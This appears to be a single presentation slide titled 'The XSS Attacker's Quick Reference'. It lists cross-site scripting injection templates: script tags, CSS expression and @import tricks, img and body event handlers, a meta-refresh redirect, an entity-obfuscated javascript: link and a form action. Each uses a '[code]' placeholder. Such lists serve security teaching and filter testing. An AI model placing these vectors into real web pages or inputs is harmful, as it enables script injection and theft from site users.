

# The XSS Attacker’s Quick Reference
<script>[code]</script>
<script src=[link to code]></script>
<div style=width: expression([code]);>
<style>@import "javascript:[code];";</style>
<img src=javascript:[code]>
<img src="my.jpg" onmouseover=[code]>
<body onload=[code]>
<meta http-equiv="refresh" content="0;url=javascript:[code]">
<a href=javas&#99;ript&#35; [code]>
<form action=javascript:[code]>